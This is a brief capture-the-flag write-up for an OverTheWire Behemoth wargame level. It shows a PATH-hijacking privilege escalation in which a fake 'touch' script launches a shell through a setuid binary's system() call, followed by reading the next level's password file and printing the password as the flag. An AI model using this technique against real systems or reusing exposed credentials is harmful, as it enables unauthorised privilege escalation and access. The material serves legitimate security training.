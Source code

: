 # behemoth level3 Solution

In this challenge, we can see the code call this line in C: `system("touch $pid")`, so, we'll override the `touch` by manipulating the $PATH environment variable.

```
behemoth2@gibson:/tmp/tmp.SzpOLaiNNy$ echo "/bin/bash" > touch
behemoth2@gibson:/tmp/tmp.SzpOLaiNNy$ export PATH=$(pwd):$PATH
behemoth2@gibson:/tmp/tmp.SzpOLaiNNy$ chmod +x touch
behemoth2@gibson:/tmp/tmp.SzpOLaiNNy$ chmod +x .
behemoth2@gibson:/tmp/tmp.SzpOLaiNNy$ /behemoth/behemoth2
behemoth3@gibson:/tmp/tmp.SzpOLaiNNy$ cat /etc/behemoth_pass/behemoth3
JQ6tZGqt0i
```



**Flag:** ***`JQ6tZGqt0i`*** 
